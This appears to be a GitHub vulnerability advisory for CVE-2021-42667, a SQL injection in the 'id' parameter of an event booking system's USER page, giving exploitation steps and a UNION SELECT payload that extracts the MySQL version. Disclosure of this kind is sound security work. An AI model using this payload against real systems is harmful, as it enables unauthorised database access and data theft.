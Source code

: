 # CVE-2021-42667
CVE-2021-42667 - SQL Injection vulnerability in the Online event booking and reservation system version 2.3.0.

# Technical description:
An SQL Injection vulnerability exists in the Event management software version 2.3.0. An attacker can leverage the vulnerable "id" parameter in the "USER" web page in order to manipulate the sql query performed.
As a result the attacker can extract sensitive data from the web server.

Vulnerable page - USER

Vulnerable parameter - "id"

# Steps to exploit:
1) Navigate to http://localhost/event-management/views/?v=USER&ID=1
2) Insert your payload in the id parameter

# Proof of concept (Poc) -
The following payload will allow you to extract the MySql server version running on the web server -
```
UNION ALL SELECT NULL,NULL,NULL,@@version,NULL,NULL,NULL,NULL,NULL;-- -
```

![CVE-2021-42667](https://user-images.githubusercontent.com/93016131/140189245-95231b03-fb92-419e-922c-74c8752e775f.gif)

# References - 
https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-42667

https://nvd.nist.gov/vuln/detail/CVE-2021-42667

# Discovered by - 
Alon Leviev(0xDeku), 22 October, 2021. 
